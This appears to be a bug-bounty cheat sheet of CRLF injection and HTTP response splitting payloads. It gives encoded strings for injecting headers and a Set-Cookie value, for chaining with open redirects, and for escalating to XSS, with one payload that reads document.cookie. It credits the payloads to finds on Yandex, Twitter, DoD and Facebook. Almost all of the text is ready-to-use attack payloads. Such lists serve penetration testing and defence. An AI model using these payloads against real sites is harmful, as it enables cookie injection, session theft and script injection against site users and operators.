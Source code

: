 ## CRLF Injection || HTTP Response Splitting

```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```
**Header-based test, site root:**
```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```
**Chained with Open Redirect server misconfiguration - sometimes work (discovered in some Yandex sites, was not exploitable from the root):**

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
```
```
/www.google.com/%2e%2e%2f%0d%0aheader:header
```
```
/google.com/%2F..%0d%0aheader:header
```
**CRLF by @filedescriptor (http://blog.innerht.ml/twitter-crlf-injection/) - twitter specific:**
```
%E5%98%8A%E5%98%8Dheader:header
```

**CRLF Injection to XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```
Response splitting on 302 Redirect, before Location header (Discovered in DoD):
```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```
Response splitting on 301 code, chained with Open Redirect to corrupt location header and break 301 (facebook bug). xxx:1 was used as an corrupt open redirect destination (Location header). Found by @black2fan. Great example how to escalate CRLF to XSS on such, it would seem, unexploitable 301 code:
```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```
